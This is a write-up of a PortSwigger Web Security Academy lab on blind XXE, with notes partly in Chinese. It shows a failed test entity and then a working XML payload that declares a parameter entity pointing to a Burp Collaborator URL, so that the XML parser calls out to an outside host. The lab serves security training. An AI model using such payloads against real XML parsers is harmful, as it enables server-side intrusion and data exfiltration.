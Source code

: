 ```yaml
---
title: 'Lab: Blind XXE with out-of-band interaction via XML parameter entities'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE/Blind XXE"
---
```


# Lab: Blind XXE with out-of-band interaction via XML parameter entities
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
* Goal: To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
* Hint: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Background
這一題會用到Parameter Entity，也就是當server端擋掉外部的entity輸入時，可以直接在`DOCTYPE`中直接Reference，也就是利用`%`這個字元達到這個效果

## Recon
* Create a new entity and reference it
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/H1hEjtUNh.png)
    Seems not work properly...


## Exp
* Use Parameter Entity
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://a1cby8s3b3bvzxlb8cfaw4jvqmwfk4.burpcollaborator.net"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/rJh0sYLEn.png)

---
![](https://hackmd.io/_uploads/rk7H2FL42.png)
:::

## Reference
[XXE Lab Breakdown: Blind XXE with out-of-band interaction via XML parameter entities](https://youtu.be/xjcSMFKVTW4)
[Lab: Blind XXE with out-of-band interaction via XML parameter entities](https://www.cnblogs.com/Zeker62/p/15190054.html)